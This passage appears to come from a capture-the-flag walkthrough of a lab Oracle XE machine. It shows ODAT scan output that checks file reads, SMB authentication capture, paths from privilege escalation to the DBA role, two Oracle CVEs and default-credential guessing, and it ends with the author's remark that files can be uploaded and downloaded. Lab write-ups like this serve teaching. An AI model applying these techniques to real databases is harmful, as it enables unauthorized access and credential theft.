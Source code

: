 ```
[2.14] DBMS_LOB to read files ?
[+] OK
[2.15] SMB authentication capture ?
[+] Perhaps (try with --capture to be sure)
[2.16] Gain elevated access (privilege escalation)?
[2.16.1] DBA role using CREATE/EXECUTE ANY PROCEDURE privileges?
[+] OK
[2.16.2] Modification of users' passwords using CREATE ANY PROCEDURE privilege only?
[-] KO
[2.16.3] DBA role using CREATE ANY TRIGGER privilege?
[-] KO
[2.16.4] DBA role using ANALYZE ANY (and CREATE PROCEDURE) privileges?
[-] KO
[2.16.5] DBA role using CREATE ANY INDEX (and CREATE PROCEDURE) privileges?
[-] KO
[2.17] Modify any table while/when he can select it only normally (CVE-2014-4237)?
[+] Impossible to know
[2.18] Obtain the session key and salt for arbitrary Oracle users (CVE-2012-3137)?
Exception in thread Thread-1:
Traceback (most recent call last):
  File "threading.py", line 808, in __bootstrap_inner
  File "threading.py", line 761, in run
  File "CVE_2012_3137.py", line 105, in __sniff_sessionkey_and_salt__
  File "site-packages/scapy/sendrecv.py", line 570, in sniff
  File "site-packages/scapy/arch/linux.py", line 470, in __init__
  File "site-packages/scapy/arch/linux.py", line 139, in attach_filter
  File "socket.py", line 224, in meth
error: [Errno 22] Invalid argument

[-] KO

[3] (10.10.10.82:1521): Oracle users have not the password identical to the username ?
The login XS$NULL has already been tested at least once. What do you want to do:                               | ETA:  00:00:00
- stop (s/S)
- continue and ask every time (a/A)
- continue without to ask (c/C)
c
100% |#########################################################################################################| Time: 00:00:42
[-] No found a valid account on 10.10.10.82:1521/XE

```

In looking through what we can do, there’s a great diagram on the [odat GitHub page](https://github.com/quentinhardy/odat) that shows how each plugin tested for above maps to capabilities on the box:

![odat](https://0xdfimages.gitlab.io/img/ODAT_main_features_v2.0.jpg)

Based on the output, it seems that don’t have the ability to run commands (which ends up not being true, see section at the end), but we can upload and download files.
